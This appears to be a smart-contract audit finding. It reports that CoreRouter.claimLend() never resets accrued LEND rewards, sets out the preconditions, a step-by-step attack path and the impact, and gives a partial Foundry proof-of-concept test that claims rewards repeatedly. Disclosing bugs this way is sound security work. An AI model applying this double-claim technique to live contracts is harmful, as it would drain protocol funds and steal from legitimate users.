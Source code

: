 1. User must have supplied tokens to earn LEND rewards
2. Sufficient time must pass or reward distribution must be triggered to accrue rewards in `lendAccrued[user]`

## Attack Path

1. User earns rewards: User supplies tokens and earns LEND rewards through normal protocol usage
2. Amplified attack vector: Since `claimLend()` is a public function with no access control
3. First claim: Attacker calls `CoreRouter.claimLend()` and successfully receives LEND tokens
4. State not reset: `lendAccrued[user]` remains unchanged instead of being reset to 0
5. Repeat exploitation: Attacker repeatedly calls `claimLend()` to receive the same reward amount multiple times
6. Protocol drained: Attacker continues until CoreRouter's LEND token balance is exhausted

## Impact

- Direct theft of protocol funds: Users can steal all LEND tokens held by CoreRouter
- Unfair reward distribution: Malicious users receive multiple times their entitled rewards
- Legitimate users lose rewards: Protocol may run out of LEND tokens for genuine claims
- Protocol insolvency: CoreRouter becomes unable to pay legitimate reward claims

The vulnerability allows **infinite multiplication of LEND rewards** until the protocol's reward reserves are completely drained.

## PoC

Paste this test in `/test/TestSupplying.t.sol`:

```solidity
    function test_POC_lend_accrued_never_reset_bug() public {
        // Setup: User supplies tokens and earns rewards
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);

        vm.startPrank(lendStorage.owner());
        lendStorage.setAuthorizedContract(address(coreRouter), true);
        vm.stopPrank();

        ERC20Mock mockLendToken = new ERC20Mock();
        vm.startPrank(lendtroller.admin());
        lendtroller.setLendToken(address(mockLendToken));
        vm.stopPrank();

        mockLendToken.mint(address(coreRouter), 1000e18);

        vm.startPrank(deployer);
        ERC20Mock(token).mint(deployer, 1000e18);
        IERC20(token).approve(address(coreRouter), 1000e18);
        coreRouter.supply(1000e18, token);
        vm.stopPrank();

        address[] memory holders = new address[](1);
        holders[0] = deployer;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        vm.startPrank(deployer);

        // Advance block to generate minimal rewards
        vm.roll(block.number + 1);

        // First claim
        uint256 balanceBefore = mockLendToken.balanceOf(deployer);
        coreRouter.claimLend(holders, lTokenArray, false, true);
```